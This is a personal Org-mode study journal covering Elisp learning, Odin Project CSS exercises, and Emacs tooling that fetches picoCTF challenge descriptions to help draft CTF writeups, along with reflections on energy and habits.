 #+property: header-args :eval no :noweb no

Current project: [[https://github.com/rafaelbeirigo/odin-css-exercises/][Web Development Foundations Course from The Odin Project]].

# Usar `webdev' template (yas).

* [2025-10-30 Thu]

** Work
# What I actually did today.
# Experiments, coding, debugging, learning.
# (Be honest. Even chaos counts.)
# Examples:
# Refactored the login automation script.
# Experimented with parsing JSON from PicoCTF API challenges.
# the effort or activity you put in. Think of it as your actions, experiments, coding sessions, research, debugging.
# Example: “Refactored the login automation script” or “Analyzed the PDF forensic challenge.”

- Studied Elisp, 2h
- Webdev, 1h, 3 exercises.

** Output
# Tangible things that exist because of today’s work.
# The tangible artifact you produced. This is your deliverable, whatever someone could use or look at.
# Scripts, writeups, data, visualizations, prototypes.
# If nothing usable yet, write “Prototype / Draft.”
# Examples:
# “Working Python script” or “Documented step-by-step writeup” or even “Updated CSV dataset.”
# Cleaned Python script that logs in and fetches challenge info.
# Sample JSON file saved locally for testing.

This are the exercises I did today.
- Upper-left: how it started
- Upper-right: my solution
- Lower-right: desired outcome


[[file:images/2025-10-30-112212_1920x1080_scrot.png]]

[[file:images/2025-10-30-112403_1920x1080_scrot.png]]

[[file:images/2025-10-30-112550_1920x1080_scrot.png]]

** Outcome
# What happened as a result of the work + output.
# Insights, results, solved problems, new questions.
# Even failures are outcomes: they teach.
# Examples:
# Script now reliably fetches challenges without manual cookie handling.
# Learned nuances of auth headers and session management.
# the result or effect of the work and output. Did it solve the problem? Did it teach you something? Did it help others?
# Example: “Script successfully logs in automatically” or “Found hidden flag in the PDF.”

- In Elisp, the material I am using to study is for beginners.
  But I am not confident about skipping content.
  Practicing that.
  Skipped the exercises, though.
  Feel like it went faster that yesterday.

** Next
# Immediate next steps or goals.
# Could be tweaks, follow-ups, or completely new experiments.
# Keep it small and actionable.
# Examples:
# Add error handling for missing or malformed JSON.
# Write mini writeup for team on the automation process.
# what’s your forward action or next goal. This closes the loop and keeps the momentum.
# Example: “Add error handling and make it general for all CTF challenges” or “Write a tutorial for the PDF trick.”

** Seinfeld Checkmark
# (my-copy-seinfeld-jpeg-filename-to-clipboard)

[[file:images/2025-10-30_seinfeld.jpeg]]

- Today's Scores
  - Fun: /5
  - Energy: /5

* [2025-10-29 Wed]

** Work
# What I actually did today.
# Experiments, coding, debugging, learning.
# (Be honest. Even chaos counts.)
# Examples:
# Refactored the login automation script.
# Experimented with parsing JSON from PicoCTF API challenges.
# the effort or activity you put in. Think of it as your actions, experiments, coding sessions, research, debugging.
# Example: “Refactored the login automation script” or “Analyzed the PDF forensic challenge.”

More variety today, including /webdev/ proper!

- Studied Elisp in the morning, 1h.
- Webdev studies, also 1h.
- A bit of blogging CTF writeups in the morning, a lot in the evening.

** Outcome
# What happened as a result of the work + output.
# Insights, results, solved problems, new questions.
# Even failures are outcomes: they teach.
# Examples:
# Script now reliably fetches challenges without manual cookie handling.
# Learned nuances of auth headers and session management.
# the result or effect of the work and output. Did it solve the problem? Did it teach you something? Did it help others?
# Example: “Script successfully logs in automatically” or “Found hidden flag in the PDF.”

- In Elisp, today's chapter was about the basics of function calls, clarifying that Elisp deals with /text/ editing a lot, thus the /theme/ of the code around that.
  In this case, the examples were about /buffer/---size and positioning/navigation within---, and /point/.
- In Webdev, continuing with CSS, this time the /Flex/ Model.
  Great improvements over The Box Model.
  But the Grid is the way to go.
  Still some time until we get there.
  Again, lots of confusing rules and exceptions.
  I gave up trying to aprehend those: will focus on the /results/: get the final product to look as intended.
  I see no point in trying to make sense of this much confusion when my goal is not implement a web client, nor contribute with the specifications.
- In the CTF Writeups, in the morning I went out for a long walk, thought a lot about how I would like to have the writeups.
  I want it to be /real/.
  The idea is to /backtrack/ the solution: start with TL;DR, and give the solution right away.
  Then trace the steps back with an investigation of /why/ that solution worked.
  This way
  - It is more realistic, as the solutions often happen after trying out a lot of ideas: it is not /planned/, so it is not realistic to think that the person (me) who solved the challenge knew all that to begin with.
  - The reader may stop as soon as they are satisfied with the depth, starting from just the solution and no depth at all, and going all the way to the core of the /why/ the solution worked in the first place.
  In the evening worked on integrating ChatGPT's critique.
  It was much more difficult that I thought.
  - I had to learn a lot of new ~gdb~ commands
  - Apparently ChatGPT was wrong (I believe, will check tomorrow) about the reason why the segfault occurred.
    This made my life a little more difficult, as I had to investigate other possible reasons.
    It was a slow process, and I thought about just giving up and finishing the post as it is (which would not be the end of the world, as it is reasonably deep).
    But I want to learn it myself!
    These are the foundations of Binary Exploitation, and skipping it will just hinder my progress moving forward.
    But I'm tired!

** Next
# Immediate next steps or goals.
# Could be tweaks, follow-ups, or completely new experiments.
# Keep it small and actionable.
# Examples:
# Add error handling for missing or malformed JSON.
# Write mini writeup for team on the automation process.
# what’s your forward action or next goal. This closes the loop and keeps the momentum.
# Example: “Add error handling and make it general for all CTF challenges” or “Write a tutorial for the PDF trick.”

- Continue with Elisp and Webdev studies, try 1h again each, as it worked well today.
- CTF Writeup: this time work alongside ChatGPT on the solution.

** Seinfeld Checkmark
# (my-copy-seinfeld-jpeg-filename-to-clipboard)

[[file:images/2025-10-29_seinfeld.jpeg]]

- Today's Scores
  - Fun: 4/5 (meeting me where I was at: go for a walk and think; prioritize my /vision/ and /skill building/ instead of just public output.
  - Energy: 4/5 getting energized!

* [2025-10-28 Tue]

** Work
# What I actually did today.
# Experiments, coding, debugging, learning.
# (Be honest. Even chaos counts.)
# Examples:
# Refactored the login automation script.
# Experimented with parsing JSON from PicoCTF API challenges.
# the effort or activity you put in. Think of it as your actions, experiments, coding sessions, research, debugging.
# Example: “Refactored the login automation script” or “Analyzed the PDF forensic challenge.”

- Spent the morning studying Elisp fundamentals;
- Spent the evening writing a new CTF writeup.

** Outcome
# What happened as a result of the work + output.
# Insights, results, solved problems, new questions.
# Even failures are outcomes: they teach.
# Examples:
# Script now reliably fetches challenges without manual cookie handling.
# Learned nuances of auth headers and session management.
# the result or effect of the work and output. Did it solve the problem? Did it teach you something? Did it help others?
# Example: “Script successfully logs in automatically” or “Found hidden flag in the PDF.”

The Elisp study started as a necessity: I was feeling my mind was "heavy", and thought it was weak foundations (lots of very important doubts and uncertainties accumulated).
I could finish the first phase of the text, which are the most dense.
It turned out to be very helpful, could better understand a lot of concepts, and close some conceptual gaps.
Coding should get much more productive and fun now!

The writeup was fun!
But it was tricky: I kept trying to add more and more, polish, and so on...
It was infinite!
Then I focused on some key aspects:

1. Show the solution;
2. Convey the /mindset/ necessary for the solution when possible;
3. Teach the use of tools, and show some useful tricks;
4. Explain the steps in detail, but keep it light, give pointers;


I also added a lot of material after showing the solution.
Something very interesting happened: a severe security breach that was not in the scope of that particular challenge.
I explored that a little.
Then I was ready to post, but asked ChatGPT for some critique.
Well, if he had some!
And they were good: /I/ could learn a lot!
I'll work on that tomorrow, so no output for today, unfortunately!

I put the development on hold for today, but took notes of things to improve; and there are already some!

** Next
# Immediate next steps or goals.
# Could be tweaks, follow-ups, or completely new experiments.
# Keep it small and actionable.
# Examples:
# Add error handling for missing or malformed JSON.
# Write mini writeup for team on the automation process.
# what’s your forward action or next goal. This closes the loop and keeps the momentum.
# Example: “Add error handling and make it general for all CTF challenges” or “Write a tutorial for the PDF trick.”

- Integrate ChatGPT's critique on the blog post.
- Continue with the Elisp studies (but less time, focus on writeups).

** Seinfeld Checkmark
# (my-copy-seinfeld-jpeg-filename-to-clipboard)

[[file:images/2025-10-28_seinfeld.jpeg]]

- Today's Scores
  - Fun: 4/5 (CTFs are fun!)
  - Energy: 3/5 (recovered, but not 100% yet)

* [2025-10-27 Mon]

** Work
# What I actually did today.
# Experiments, coding, debugging, learning.
# (Be honest. Even chaos counts.)
# Examples:
# Refactored the login automation script.
# Experimented with parsing JSON from PicoCTF API challenges.
# the effort or activity you put in. Think of it as your actions, experiments, coding sessions, research, debugging.
# Example: “Refactored the login automation script” or “Analyzed the PDF forensic challenge.”

I was feeling sick today, and very tired.
But could get some small victories!

- The dev work had gotten to a point where my mind couldn't aprehend it anymore---model bigger that brain.
  I thought of either studying theory or restarting the program from scratch---greats say wonders about this.
  But after staring---literally---at the code for a while, thinking a bit, I ended up doing some refactoring, and could even get some new work done.
- I was really annoyed by the fact that I still had to type in the title and tags.
  Despite the fear of rabbit-holing, I gave a tiny little peek at the page, and ended up realizing the solution is much easier than I thought: I just need another request for a different URL.
  This inpired the refactoring of the fetching code (credentials, login, and download).
- Added internal HTML parsing to avoid the need to call an external Python script for that.
  Also added the use of tempfiles.
- The way I was doing Literate Programming ended up hiding some dirt: there was some repetition of code.
  I cleaned that up with some new function.s
  
** Output
# Tangible things that exist because of today’s work.
# The tangible artifact you produced. This is your deliverable, whatever someone could use or look at.
# Scripts, writeups, data, visualizations, prototypes.
# If nothing usable yet, write “Prototype / Draft.”
# Examples:
# “Working Python script” or “Documented step-by-step writeup” or even “Updated CSV dataset.”
# Cleaned Python script that logs in and fetches challenge info.
# Sample JSON file saved locally for testing.

I'm particularly proud of this little snippet.
ChatGPT helped me with it, but it had a bug.
I was feeling particularly sick at that time.
But could manage to fix the bug, improve it a little bit, and integrate it to the code.

#+begin_src elisp :noweb no
(defun html-get-text (html)
  "Return text in HTML."
  (interactive "Mhtml: ")
  (with-temp-buffer
    (insert html)
    (let* ((dom (libxml-parse-html-region (point-min) (point-max)))
           (text (mapcar (lambda (a) (dom-text a))
                          (dom-by-tag dom 'p)))
           (text (string-join text " "))
           (text (split-string text nil t))
           (text (string-join text " ")))
      text)))
#+end_src

** Outcome
# What happened as a result of the work + output.
# Insights, results, solved problems, new questions.
# Even failures are outcomes: they teach.
# Examples:
# Script now reliably fetches challenges without manual cookie handling.
# Learned nuances of auth headers and session management.
# the result or effect of the work and output. Did it solve the problem? Did it teach you something? Did it help others?
# Example: “Script successfully logs in automatically” or “Found hidden flag in the PDF.”

- Despite not being 100% I could still show up to the work.
  This small victory helps building habit and identity, and I am very proud of that.
- The analysis, mental work, and refactoring helped build a better mental model.
  This prevents tiredness and ultimately burn out, of which I have to be /very/ aware in order not to go there again!
- Refactoring is always high-adrenaline, and I tried to micro-test as often as I could.
  Ended up discovering some simple little tricks that are a big help to keep tests light to the brain.
- Avoiding the need to call an external Python script was a big win for today!
- Feeling /this/ tired today raised a big red flag!
  I really need to pay attention to ealy signs of low healthy routines.
  This time I believe it may be food.
  I've been eating a lot of /fresh/ liver lately (I usually eat it /dried/), and that stuff can get heavy on the body sometimes.

** Next
# Immediate next steps or goals.
# Could be tweaks, follow-ups, or completely new experiments.
# Keep it small and actionable.
# Examples:
# Add error handling for missing or malformed JSON.
# Write mini writeup for team on the automation process.
# what’s your forward action or next goal. This closes the loop and keeps the momentum.
# Example: “Add error handling and make it general for all CTF challenges” or “Write a tutorial for the PDF trick.”

- Start the proper output.
  Finish the HTML parsing, put the dev on hold for a while, and restart the writeups.
  I want the system to start /producing/!
  This will also give me the opportunity to /test/ the current version.
  It is prepare for automatic diagnostics only for /executables/, which restricts the appropriate CTFs to Binary Exploitation and maybe some Reverse Engineering.
  But that' /more/ than OK :)

** Seinfeld Checkmark

[[file:images/2025-10-27_seinfeld.jpeg]]

- Today's Scores
  - Fun: 3/5 (feeling sick is no fun, but meeting me where I'm at, and showing up for that is; glad I allowed myself some light work today)
  - Energy: 2/5 (/very/ tired!)

* [2025-10-26 Sun]

** Work

*** Automated the credentials renewal
As the previous work included a lot of tests and back and forth with ChatGPT involving credentials, I had to renew those.
Instead of manually updating my local copies of those credentials, I used the opportunity to automate this process with code.
I had it all ready, only needed to integrate them.

*** Added automatic insertion of the metadata needed by Jekyll to create a blog post.

In order to post the CTF writeup, Jekyll needs some metadata that goes into the file header.
Here is an example:

#+begin_example
#+TITLE: buffer overflow 0 (picoCTF)—CTF Writeup
#+DATE: 2025-10-26 20:46
#+JEKYLL_LAYOUT: post
#+JEKYLL_CATEGORIES: "CTF Writeup"
#+JEKYLL_TAGS: binary-exploitation ctf writeup
#+end_example

Today I automated the insertion of this snippet.
I also discovered that /title/ and /tags/ somehow skip the current info gathering process.
As fixing this would involve too much of a detour, I added that to the TODO.

*** Implemented automatic download and diagnostics of the assets

This is *huge*!
The program now automatically downloads the assets, checks its type, and run the appropriate diagnostics for that type of file.
The writeup is populated with that data in a structured form.
This saves me a *lot* of time and mental energy when making the writeups!
But the automatic execution presented a bug: it sometimes gets confused with previous results.

** Outcome

- Usually, to update the login credentials automatically, you use a program that does that without a browser.
  But picoCTF added an additional level of security in the form of a Cloudfare challenge.
  To pass this challenge you /must/ use a browser.
  To do that automatically, I called Puppeteer, using  Node.js.
  This was new for me, and I'm glad to add that tool to the box!
- To deal with all the data flying around when inserting the challenge's info, I used two different types of lists: ~plist~ and ~alist~.
  They are new to me, and I'm still getting used to their quirks.
  One that tripped me at first was the difference between two types of creating a list: ~'(1 2 (+ 3 4))~ and ~(list 1 2 (+ 3 4))~.
  They have a subtle, but very important difference in evaluation: the first form does /not/ evaluate ~(+ 3 4)~ when creating the list.
  This got me by surprise, and it took me a while to understand what was happening when the code didn't act as I expected!
- The automatic download and diagnostics is the most important part of all this for me.
  It was where I learned a lot today too.
  Here I applied all the new knowledge about the lists and new functions I am learning in Elisp.
  One that I'm really interested is a function that maps functions to Org entities.
  This is potentially very powerful and useful, as I use Org a lot.
  This creates very interesting possibilities for future projects!

** Next

- Automatically fetch challenge's title and tags.
- Fix the automatic diagnostics of the assets.
- Put development on hold, and start making the writeups for tests.

# Immediate next steps or goals.
# Could be tweaks, follow-ups, or completely new experiments.
# Keep it small and actionable.
# Examples:
# Add error handling for missing or malformed JSON.
# Write mini writeup for team on the automation process.
# what’s your forward action or next goal. This closes the loop and keeps the momentum.
# Example: “Add error handling and make it general for all CTF challenges” or “Write a tutorial for the PDF trick.”

** Seinfeld Checkmark

[[file:images/2025-10-26_seinfeld.jpeg]]

* [2025-10-25 Sat]

** I created a program that automatically gets the CTF challenge info for me, so I don't have to type it.

Writeups are about to get much easier and funnier!
CTF writeups need a lot of context, and they sometimes come as a story, other times as just a question, but in any case, that must go into the writeup.
So far I was copying/pasting, and then cleaning up the text.
It was /very/ tedious!

Today I created a small program that automatically goes to the website and grabs that info and inserts it necely inside my editor, in a pre-chosen template.
The pictures below show the info on the website and the editor.

#+caption: Challenge info in the website and the editor.
[[file:images/2025-10-25-ctf-insert-info.jpeg]]

** Code

This is the code that makes the magic happens:

#+begin_src elisp :noweb no
;; TODO: Consider this division:
;; - ctf-fetch-json (or ctf-fetch-html)
;; - ctf-parse-info (or ctf-parse-html)
;; - ctf-insert-info
(defvar ctf-picoctf-user nil
  "Username to login on picoCTF.")
(defvar ctf-html-to-plain-command nil
  "Command to call when converting HTML to plain text.")
(define-minor-mode ctf-mode
  "Minor mode for CTF writeups."
  :lighter " Ctf"
  :keymap (make-sparse-keymap)
  
  )
(defun ctf-info-from-id (id &optional user)
  "Retrives the challenge's info from the website using ID."
  (interactive "Mid: ")
  (require (quote auth-source))
  (let* ((user (or ctf-picoctf-user user))
         (results (car (auth-source-search :host "play.picoctf.org" :user user :max 1)))       
         (secret (plist-get results :secret))
         (password (if (functionp secret) (funcall secret) secret))
         (csrftoken (plist-get results :csrftoken))
         (cookie (plist-get results :cookie))
         ;; Get the challenge info and save it in JSON format in the file `/tmp/html.json'.
         (command (format "curl --output '/tmp/html.json' 'https://play.picoctf.org/api/challenges/%s/instance/' -H 'Cookie: %s'" id cookie)))
    (shell-command command))
  ;; TODO (ChatGPT critique): The ctf-html-to-plain-command bit feels brittle — if
  ;; the API returns HTML inside JSON, better to convert inside Emacs.  You can
  ;; strip tags using shr-render-region or libxml-parse-html-region. Then you’re
  ;; not shelling out to an external script unnecessarily.
  
  (shell-command ctf-html-to-plain-command)
  (with-temp-buffer
    (insert-file-contents "/tmp/plain.json")
    (let* ((json-string (buffer-substring-no-properties (point-min) (point-max)))
           (json-plist (json-parse-string json-string :object-type 'plist)))
      json-plist))
  ;; TODO: If that failed, get a new cookie and ask again
  )
;; TODO: Use `org-insert-link' for the links below.
(defun ctf-insert-info (id)
  "Insert the info from challenge ID into current buffer."
  (interactive "Mid: ")
  (let* ((info (ctf-info-from-id id))
         (description (plist-get info :description))
         (description-urls (seq-into (plist-get info :description_urls) 'list))
         (hints (seq-into (plist-get info :hints) 'list))
         (hints-urls (seq-into (plist-get info :hints_urls) 'list)))
    (insert "* Description\n")
    (insert (format "\n%s\n" description))
    (when hints
      (insert "\n* Hints\n")
      (dolist (hint hints)
        (insert (format "\n- %s\n" hint))))
    (when hints-urls
      (insert "\n* Hints URLs\n")
      (dolist (hints-url hints-urls)
        (insert (format "\n- [[%s]]\n" hints-url))))
    (when description-urls
      (insert "\n* Assets\n")
      (dolist (description-url description-urls)
        (insert (format "\n** [[%s]]\n" description-url))))))
(provide 'ctf-mode)

#+end_src

It calls this script:

#+begin_src python :noweb no
import json
from bs4 import BeautifulSoup

# Load JSON from file
with open("/tmp/html.json", "r", encoding="utf-8") as f:
    data = json.load(f)

def html_to_text_and_urls(html_content):
    """Convert HTML to plain text and extract all URLs."""
    soup = BeautifulSoup(html_content, "html.parser")
    text = soup.get_text(separator=" ", strip=True)
    links = [a["href"] for a in soup.find_all("a", href=True)]
    return text, links

# Process the description
desc_text, desc_urls = html_to_text_and_urls(data.get("description", ""))

# Process the hints (list of HTML strings)
plain_hints = []
all_hint_urls = []
for hint_html in data.get("hints", []):
    hint_text, hint_urls = html_to_text_and_urls(hint_html)
    plain_hints.append(hint_text)
    all_hint_urls.extend(hint_urls)

# Create clean version
out_data = {
    "id": data["id"],
    "status": data["status"],
    "description": desc_text,
    "description_urls": desc_urls,
    "hints": plain_hints,
    "hint_urls": all_hint_urls,
}

# Save cleaned JSON
with open("/tmp/plain.json", "w", encoding="utf-8") as f:
    json.dump(out_data, f, indent=2, ensure_ascii=False)

print("✅ Extracted plain text and URLs to /tmp/plain.json")
#+end_src

*** This is the literate programming version

#+property: header-args :results replace

**** This is the CTF minor mode.  I'll be using it to make CTF writeups.
Besides editing facilities, it also does some /challenge-solving/ of its own.
For example, after downloading a file, it looks at its type (as informed by the command ~file~), and potentially runs more commands, appropriate for that type of file.

[[file:ctf-mode.el][ctf-mode.el]] ≡

#+begin_src emacs-lisp :tangle ctf.el :noweb no
;; TODO: Consider this division:
;; - ctf-fetch-json (or ctf-fetch-html)
;; - ctf-parse-info (or ctf-parse-html)
;; - ctf-insert-info
<<Variable definitions>>
<<Define the minor mode>>
<<Function that gets the challenge info from an ID>>
<<Populate the writeup with the challenge info>>
(provide 'ctf-mode)
#+end_src

**** First, let's define it, add a nice lighter to it, and its own neat keymap.

~<<Define the minor mode>> +≡~

#+begin_src elisp :noweb-ref Define the minor mode :noweb no
(define-minor-mode ctf-mode
  "Minor mode for CTF writeups."
  :lighter " Ctf"
  :keymap (make-sparse-keymap)
  <<Minor mode definition>>
  )
#+end_src

**** *Function that gets the challenge info from an ID.*  This process need authentication.  It first tries to use the credentials and cookie saved locally.  If that fails, it obtains a new cookie and tries again.

~<​<Function that gets the challenge info from an ID>> +≡​~

#+begin_src elisp :noweb-ref Function that gets the challenge info from an ID :noweb no
(defun ctf-info-from-id (id &optional user)
  "Retrives the challenge's info from the website using ID."
  (interactive "Mid: ")
  <<Ask for the info with the current cookie>>
  ;; TODO: If that failed, get a new cookie and ask again
  )
#+end_src

***** *Ask for the info with the current cookie.*  Grab the local credentials and cookie and ask picoCTF for the information (description, hints and links) of a challenge whose ID is ~id~.  If it succeeds, the info is saved as a JSON file.

~<​<Ask for the info with the current cookie>> +≡​~

#+begin_src elisp :noweb-ref Ask for the info with the current cookie :results none :noweb no
(require (quote auth-source))
(let* ((user (or ctf-picoctf-user user))
       (results (car (auth-source-search :host "play.picoctf.org" :user user :max 1)))       
       (secret (plist-get results :secret))
       (password (if (functionp secret) (funcall secret) secret))
       (csrftoken (plist-get results :csrftoken))
       (cookie (plist-get results :cookie))
       ;; Get the challenge info and save it in JSON format in the file `/tmp/html.json'.
       (command (format "curl --output '/tmp/html.json' 'https://play.picoctf.org/api/challenges/%s/instance/' -H 'Cookie: %s'" id cookie)))
  (shell-command command))
#+end_src

~<​<Variable definitions>> +≡​~

#+begin_src elisp :noweb-ref Variable definitions :noweb no
(defvar ctf-picoctf-user nil
  "Username to login on picoCTF.")
#+end_src

***** *Create a Python script to extract the text and URLs from the JSON file we got.*  This file we just got will contain the challenge info, but in HTML, with the markup elements, like ~<p>...</p>~, ~<a href ...>...</a>~, etc.  We need to clean that up.  We use Python for that.  First we create the script, then we call it.  This script will create a new file called ~plain.json~ with the challenge's info ready to be inserted into the writeup.

3. JSON and shell handling

#+begin_src python :tangle html-to-plain.py :noweb no
import json
from bs4 import BeautifulSoup

# Load JSON from file
with open("/tmp/html.json", "r", encoding="utf-8") as f:
    data = json.load(f)

def html_to_text_and_urls(html_content):
    """Convert HTML to plain text and extract all URLs."""
    soup = BeautifulSoup(html_content, "html.parser")
    text = soup.get_text(separator=" ", strip=True)
    links = [a["href"] for a in soup.find_all("a", href=True)]
    return text, links

# Process the description
desc_text, desc_urls = html_to_text_and_urls(data.get("description", ""))

# Process the hints (list of HTML strings)
plain_hints = []
all_hint_urls = []
for hint_html in data.get("hints", []):
    hint_text, hint_urls = html_to_text_and_urls(hint_html)
    plain_hints.append(hint_text)
    all_hint_urls.extend(hint_urls)

# Create clean version
out_data = {
    "id": data["id"],
    "status": data["status"],
    "description": desc_text,
    "description_urls": desc_urls,
    "hints": plain_hints,
    "hint_urls": all_hint_urls,
}

# Save cleaned JSON
with open("/tmp/plain.json", "w", encoding="utf-8") as f:
    json.dump(out_data, f, indent=2, ensure_ascii=False)

print("✅ Extracted plain text and URLs to /tmp/plain.json")
#+end_src

~<​<Ask for the info with the current cookie>> +≡​~

#+begin_src elisp :noweb-ref Ask for the info with the current cookie :noweb no
;; TODO (ChatGPT critique): The ctf-html-to-plain-command bit feels brittle — if
;; the API returns HTML inside JSON, better to convert inside Emacs.  You can
;; strip tags using shr-render-region or libxml-parse-html-region. Then you’re
;; not shelling out to an external script unnecessarily.

(shell-command ctf-html-to-plain-command)
#+end_src

~<​<Variable definitions>> +≡​~

#+begin_src elisp :noweb-ref Variable definitions :noweb no
(defvar ctf-html-to-plain-command nil
  "Command to call when converting HTML to plain text.")
#+end_src

***** Get the challeng info from ~plain.json~ and store it into a variable that the function will return

~<​<Ask for the info with the current cookie>> +≡​~

#+begin_src elisp :noweb-ref Ask for the info with the current cookie :noweb no
(with-temp-buffer
  (insert-file-contents "/tmp/plain.json")
  (let* ((json-string (buffer-substring-no-properties (point-min) (point-max)))
         (json-plist (json-parse-string json-string :object-type 'plist)))
    json-plist))
#+end_src

**** *Populate the writeup with the challenge info.*

Use the extracted, clean info to populate the writeup.

~<​<Populate the writeup with the challenge info>> +≡​~

#+begin_src elisp :noweb-ref Populate the writeup with the challenge info :noweb no
;; TODO: Use `org-insert-link' for the links below.
(defun ctf-insert-info (id)
  "Insert the info from challenge ID into current buffer."
  (interactive "Mid: ")
  (let* ((info (ctf-info-from-id id))
         (description (plist-get info :description))
         (description-urls (seq-into (plist-get info :description_urls) 'list))
         (hints (seq-into (plist-get info :hints) 'list))
         (hints-urls (seq-into (plist-get info :hints_urls) 'list)))
    (insert "* Description\n")
    (insert (format "\n%s\n" description))
    (when hints
      (insert "\n* Hints\n")
      (dolist (hint hints)
        (insert (format "\n- %s\n" hint))))
    (when hints-urls
      (insert "\n* Hints URLs\n")
      (dolist (hints-url hints-urls)
        (insert (format "\n- [[%s]]\n" hints-url))))
    (when description-urls
      (insert "\n* Assets\n")
      (dolist (description-url description-urls)
        (insert (format "\n** [[%s]]\n" description-url))))))
#+end_src

** Outcome

The process of making CTF writeups just got /much/ easier---and /enjoyable/!
Instead of wasting mental energy on tedious tasks, I can focus on injecting precise, useful information.
It also helps on /adding/ the information: most of the time it may feel like it's not worth the effort, but having that information at hand while reading the writeup makes a /huge/ difference: many times the path towards a solution depends on some subtle information in the description!

** Next steps

As you can see, there are already a lot explicit of TODOs.
But what will make a *HUGE* impact is to /automatically/
1. Download each asset;
2. Detect its file type;
3. Automatically run the appropriate diagnostics based on that type.


In the CTFs, they are files that must be inspected /very/ closely, and in /multiple/ ways.
This investigative work involves running a /lot/ of commands!
Automating this not only saves physical and mental energy, but also avoids forgetting to run important diagnostics.
I have most of the code for that ready, just need to integrate it.

Also, I want to:
- Update the local cookie when it expires.
  This involves authentication in *two stages*:
  1. Pass a Cloudfare challenge and get a key.  For this, I'll use Puppeteer in headless mode.
  2. Authenticate with that key, user and password, obtaining a new cookie.


I already have the functioning code for those two, now I just need to integrate it on the current code.

** Seinfeld Checkmark

[[file:images/2025-10-25_seinfeld.jpeg]]

* [2025-10-24 Fri]

** Sharpening the axe (still)

Working on tools (to make tools (...)) I came upon what could be called a semi-realization: it is also about commitment.
When preparing Emacs to edit blog posts, there are always some "shortcuts" along the way---sub-optimal or not-so-best-practices forks in the path.
It's somewhat tempting to take those shortcuts, especially when you are not /doing the thing/, but still /preparing to do the thing/.
But if one is in it for the long run, it pays off to pause, learn how to do stuff properly, think, organize, and implement.
Today was that day for me.

It all started with Yasnippets, that helps with abbreviations: when I type ~autotangle~, for instance, it expands to

#+begin_src shell :eval no :noweb no
#-*- auto-fill-function: nil; eval: (add-hook 'after-save-hook (lambda () (org-babel-tangle) (load "/home/rafa/dev/webdev-study/README")) nil t); -*-
#+end_src

which tells Emacs to take what I just write, plus everything else in the buffer, /tangle/ it to the proper file, and listen to all that that file has to say.
Very nice.

30 minutes later I realized I was doing this for a lot of files, and those files were in the same directory.
The Proper® way to do that became then to use a /directory local variable/.
I had to go to the manual, remember how to do it, and iterate until it was done.
Can't say I didn't have fun, though.

Then my tug-of-war with Org and its colors for the fonts got a new episode today.
The proper solution was to create a /minor-mode/, that has its own colors, just the way I like it, and Org doesn't have a say on it.
The next section is all theirs.

** A mode as a weapon

~noweb.el~

#+begin_src elisp :tangle no :noweb no
(defvar noweb-mode-map (make-sparse-keymap))

(define-minor-mode  noweb-mode
  "Minor mode for noweb hacking."
  :global nil
  :init-value nil
  :lighter " Noweb"
  :keymap noweb-mode-map

  (set (make-local-variable 'comment-start) "#")

  <<Resolve faces when enabling/disabling the mode>>)
<<font-lock stuff>>
<<functions>>
(add-hook 'org-mode-hook 'noweb-mode)
#+end_src

# Can't tangle this because it contains `<<', and this upsets Org-babel's noweb
# engine.
#+begin_src elisp :tangle no :noweb no
(defun noweb-fix-function-thingy-buffer-wide ()
  "Adds some ZERO WIDTH SPACE to avoid font-lock conflicts with Org."
  (interactive)
  (save-excursion
    (goto-char (point-min))
    (while (re-search-forward "~<<\\(.*?\\)>> \\+≡~" nil t)
      (replace-match (format "~<%s<\\1>> +≡%s~" "​" "​") t))))
#+end_src

*** Faces

**** Create faces

~<​<font-lock stuff>> +≡​~

#+begin_src elisp :noweb-ref font-lock stuff :noweb no
(defface noweb-module-name-face
  '((t (:foreground "green")))
  "Face for `foo' in `<<foo>>'.")
#+end_src

**** Determine the keywords and their corresponding faces

~<​<font-lock stuff>> +≡​~

#+begin_src elisp :noweb-ref font-lock stuff :noweb no :noweb no
(defvar noweb-font-lock-keywords
  '(("\\(<<.*>>\\)" 1 'noweb-module-name-face t)
    ("~\\(<​<.*>>\\) \\+≡​~" 1 'noweb-module-name-face t))
  "Font-lock keywords for `noweb-mode' minor mode.")
#+end_src

~<​<Resolve faces when enabling/disabling the mode>> +≡​~

#+begin_src elisp :noweb-ref Resolve faces when enabling/disabling the mode :noweb no
(if noweb-mode
    (font-lock-add-keywords nil noweb-font-lock-keywords t)
  (font-lock-remove-keywords nil noweb-font-lock-keywords))
(font-lock-flush)
(font-lock-ensure)
#+end_src

